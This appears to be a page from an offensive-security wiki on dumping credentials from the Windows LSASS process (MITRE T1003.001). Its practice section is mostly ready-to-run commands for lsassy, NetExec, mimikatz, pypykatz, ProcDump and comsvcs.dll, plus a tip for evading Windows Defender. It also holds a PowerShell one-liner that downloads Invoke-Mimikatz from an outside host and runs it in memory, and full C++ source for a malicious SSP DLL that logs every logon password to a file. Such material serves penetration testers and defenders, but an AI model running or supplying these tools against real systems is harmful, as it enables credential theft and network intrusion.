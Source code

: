 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.001
---
```


# LSASS secrets

## Theory

The Local Security Authority Subsystem Service (LSASS) is a Windows service responsible for enforcing the security policy on the system. LSASS hosts security-related services such as :

* **AuthN SSPI**: An [SSPI ](https://learn.microsoft.com/en-us/windows/win32/secauthn/sspi)API, allowing applications to use network security protocols
* **SAM**: Interface for the [SAM database](sam-and-lsa-secrets.md).
* **Vault**: Allowing to manage credentials in the [Windows Credential Manager](../../password-stores/windows-credential-manager.md).
* **Audit**: Enforced audit policy to generate audit records in the security event log.
* **Key Isolation**: Provides key process isolation to private keys and associated cryptographic operations
* **EFS**: Allow to perform some cryptographic operations for File encryption&#x20;
* **DPAPI**: [Data Protection API](dpapi-protected-secrets.md) Interface for the CryptAPI library, allowing to protect data.

{% hint style="info" %}
LSASS services are reachable trough RPC
{% endhint %}

<figure><img src="../../../../../.gitbook/assets/lsass-rpc-shcema.png" alt=""><figcaption></figcaption></figure>

## Practice

#### Dumping LSASS Memory

LSASS operations lead to the storage of credential material in its process memory. **With administrative rights only**, this material can be harvested (either locally or remotely).

{% tabs %}
{% tab title="Lsassy" %}
[Lsassy](https://github.com/Hackndo/lsassy) (Python) can be used to remotely extract credentials, from LSASS, on multiple hosts. As of today (22/07/2020), it is the Rolls-Royce of remote lsass credential harvesting.

* several dumping methods: comsvcs.dll, [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), [Dumpert](https://github.com/outflanknl/Dumpert)
* several authentication methods: like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos)
* it can be used either as a standalone script, as a [NetExec](https://github.com/Pennyw0rth/NetExec) module or as a Python library
* it can interact with a Neo4j database to set [BloodHound](https://github.com/BloodHoundAD/BloodHound) targets as "owned"

```bash
# With pass-the-hash (NTLM)
lsassy -u $USER -H $NThash $TARGETS

# With plaintext credentials
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS

# With pass-the-ticket (Kerberos)
lsassy -k $TARGETS

# NetExec Module examples
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
netexec smb $TARGETS -k -M lsassy
netexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from lsass's process memory, or remotely to analyze a memory dump (dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example).

```bash
# (Locally) extract credentials from LSASS process memory
sekurlsa::logonpasswords

# (Remotely) analyze a memory dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

For Windows 2000, a special version of mimikatz called mimilove can be used.
{% endtab %}

{% tab title="Pypykatz" %}
[Pypykatz](https://github.com/skelsec/pypykatz) (Python) can be used remotely (i.e. offline) to analyze a memory dump (dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example).

```bash
pypykatz lsa minidump lsass.dmp
```
{% endtab %}

{% tab title="ProcDump" %}
The legitimate tool [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) (from [sysinternals](https://docs.microsoft.com/en-us/sysinternals/)) ([download](https://live.sysinternals.com/)) can be used to dump lsass's process memory.

```bash
procdump --accepteula -ma lsass lsass.dmp
```

{% hint style="info" %}
Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.
{% endhint %}

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
procdump -accepteula -ma $lsass_pid lsass.dmp
```

Once the memory dump is finished, it can be analyzed with [mimikatz](https://github.com/gentilkiwi/mimikatz) (Windows) or [pypykatz](https://github.com/skelsec/pypykatz) (Python, cross-platform).
{% endtab %}

{% tab title="comsvcs.dll" %}
The native comsvcs.dll DLL found in `C:\Windows\system32` can be used with rundll32 to dump LSASS's process memory.

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s exfiltration script [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) (PowerShell) can be used to extract credential material from LSASS's process memory.

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Recovered credential material could be either plaintext passwords or NT hash that can be used with [pass the hash](../../../../../ad/movement/ntlm/pth.md) (depending on the context).
{% endhint %}

#### Security Support Provider DLLs

We may abuse [security support providers (SSPs)](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) to injected into LSASS.exe process custom SSP DLLs. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

We can directly **inject** [**SSP DLLs**](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) **into memory**. It prevent us from editing registries but using this approach, it will not persist accross reboot like with [this method](../../../../persistence/windows/lsa/security-support-provider-dlls.md).

{% tabs %}
{% tab title="Mimikatz" %}
Mimikatz support in memory SSP DLL injection to the LSASS process.

```
mimikatz# privilege::debug
mimikatz# misc::memssp
```
{% endtab %}

{% tab title="Custom DLL" %}
Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\lsa-pwned.txt`:

{% code title="sspcustom.cpp" %}
```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSPCustom";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSPCustom <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\lsa-pwned.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Alternatively, we may modify LSA Registry keys to add new SSPs which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called :

{% content-ref url="../../../../persistence/windows/lsa/security-support-provider-dlls.md" %}
[security-support-provider-dlls.md](../../../../persistence/windows/lsa/security-support-provider-dlls.md)
{% endcontent-ref %}

## References

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/lsass" %}

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" %}

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package" %}
